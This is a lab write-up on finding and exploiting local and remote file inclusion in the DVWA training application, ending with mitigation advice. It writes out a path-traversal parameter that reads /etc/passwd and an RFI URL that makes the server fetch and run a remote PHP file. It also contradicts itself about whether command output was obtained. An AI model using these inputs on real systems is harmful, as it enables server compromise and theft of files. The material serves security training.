 Report on Remote File Inclusion (RFI) Vulnerability in DVWA 

1. Introduction 

The purpose of this exercise is to identify and exploit a Remote File Inclusion (RFI) vulnerability in the DVWA (Damn Vulnerable Web Application). RFI is a web application vulnerability that allows an attacker to include a remote file, typically a malicious PHP file, to execute commands on a vulnerable server. 

In this report, I will cover the steps taken to identify the RFI vulnerability, exploit it, and the implications of this vulnerability. Furthermore, I will provide recommendations for securing web applications against such attacks. 

 

2. Task Overview 

Task 1: Identifying File Inclusion Point 

The first task was to identify a file inclusion point in the application. By manipulating the URL parameter to include sensitive system files, I confirmed that the application is vulnerable to Local File Inclusion (LFI). 

Steps: 

Opened the URL: http://localhost/vulnerabilities/fi/. 

The page showed a form that accepted a page parameter (?page=include.php). 

I modified the URL to: http://localhost/vulnerabilities/fi/?page=../../../../etc/passwd. 

This exposed the contents of the /etc/passwd file, indicating that the application is vulnerable to LFI. 

PicturePicture 

 

Task 2: Exploiting Remote File Inclusion (RFI) 

Objective: 

To demonstrate a Remote File Inclusion (RFI) vulnerability by injecting and executing a malicious PHP file hosted on a local server. 

Steps Performed: 

Created a Malicious File 

File name: evil.php 

Location: C:\xampp\htdocs\evil.php 

Content: 

Picture 

 

Started a Local PHP Server: 

Command used: 

The file was hosted locally and accessible via: 
 http://localhost:8000/evil.php 

Executed RFI via DVWA: 

Accessed DVWA File Inclusion page: 
 http://localhost/DVWA/vulnerabilities/fi/?page=http://localhost:8000/evil.php 

 

 

 

Result: 

The browser displayed: 
 "this is a malicious file" 

This confirms the remote PHP file was included and executed successfully on the server. 

 

Picture 

Task 3: Observation and Findings 

By exploiting the RFI vulnerability, I was able to execute system commands on the server. Specifically, the malicious file included on the server returned the output of the id command, which displayed the server's user ID. 

The vulnerability works because the application allowed external files to be included and executed, opening up the possibility for attackers to run arbitrary commands on the server. 

 

3. Implications of RFI Vulnerability 

Remote File Inclusion (RFI) is a severe security risk because it allows attackers to: 

Execute arbitrary code on the server: By including a malicious file, attackers can execute system commands and gain control of the server. 

Compromise sensitive data: If an attacker can access files such as database credentials or system files, they can steal sensitive information. 

Complete server compromise: An attacker can escalate the attack, gaining full control of the server, leading to data loss, server downtime, and unauthorized access. 

 

4. Recommendations for Mitigation 

To prevent RFI and other file inclusion vulnerabilities, I recommend the following best practices: 

Disable allow_url_include: 
 Ensure that allow_url_include is disabled in the php.ini configuration file. This will prevent PHP from including files from external URLs. 

Picture 

Sanitize User Input: 
 Never trust user input when including files. Always validate and sanitize the page or file parameters to ensure only legitimate files are included. 

Use Whitelists for File Inclusion: 
 Instead of allowing arbitrary file inclusion, maintain a list of allowed files that can be included. This can be done by checking user input against the list of predefined safe files. 

Keep Software Updated: 
 Ensure that all software, including PHP and web servers, is kept up to date with the latest security patches to prevent known vulnerabilities from being exploited. 

Implement Proper Access Controls: 
 Limit access to sensitive files on the server, such as configuration files and database credentials, by setting strict permissions on them. 

Use Web Application Firewalls (WAFs): 
 Deploy a WAF to monitor and block malicious traffic attempting to exploit vulnerabilities like RFI. 

 

5. Conclusion 

The Remote File Inclusion (RFI) vulnerability in the DVWA application was successfully identified and exploited. The attack demonstrated how an attacker can inject malicious files and execute arbitrary code on the server, leading to a potential full server compromise. By following the best practices outlined above, such vulnerabilities can be mitigated and the security of web applications can be significantly improved. 

 
